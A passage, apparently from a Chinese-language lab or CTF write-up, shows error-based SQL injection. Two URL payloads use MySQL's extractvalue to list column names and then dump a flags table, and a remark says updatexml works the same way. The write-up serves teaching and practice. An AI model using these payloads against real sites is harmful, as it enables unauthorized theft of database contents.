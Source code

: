 

获取列名

```url
id=-1") and extractvalue(1,concat('~',(select mid(group_concat(column_name),1,32) from information_schema.columns where table_name='flags'))) %23
```

![局部截取_20250504_161256](./img/局部截取_20250504_161256.png)



获取flag

```url
id=-1") and extractvalue(1,concat('~',(select group_concat(flag) from answers.flags))) %23
```

![局部截取_20250504_162944](./img/局部截取_20250504_162944.png)



其中updatexml的用法与extractvalue的用法一样。

#### updatexml函数解析：

